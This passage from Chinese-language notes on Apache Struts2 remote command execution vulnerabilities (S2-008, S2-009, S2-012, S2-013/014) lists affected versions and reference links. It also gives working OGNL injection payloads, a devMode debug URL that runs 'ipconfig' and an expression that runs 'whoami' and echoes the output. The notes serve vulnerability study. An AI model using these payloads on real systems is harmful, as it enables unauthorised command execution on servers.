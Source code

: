 

![](http://opmi2ydgh.bkt.clouddn.com//18-1-9/44059606.jpg)

会在age中得到相应的信息。


##### S2-008

- 影响版本 

	Struts 2.1.0 - Struts 2.3.1

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-008)

[参考](http://rickgray.me/review-struts2-remote-command-execution-vulnerabilities)


>S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

>例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式，因此可以直接执行命令（注意转义）：

	/showcase.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ipconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))


##### S2-009

影响版本: 2.1.0 - 2.3.1.1

[S2-009](https://github.com/sie504/vulhub/tree/master/struts2/s2-009)

![](http://opmi2ydgh.bkt.clouddn.com//18-1-9/43990420.jpg)


##### S2-012

影响版本: 2.1.0 - 2.3.13

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-012)

	%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}


![](http://opmi2ydgh.bkt.clouddn.com//18-1-9/80192149.jpg)


##### S2-013,S2-014

影响版本： Struts 2.0.0 - Struts 2.3.14-Struts 2.0.0 - Struts 2.3.14.1

[S2-013](https://cwiki.apache.org/confluence/display/WW/S2-013)

[S2-014](https://cwiki.apache.org/confluence/display/WW/S2-014)

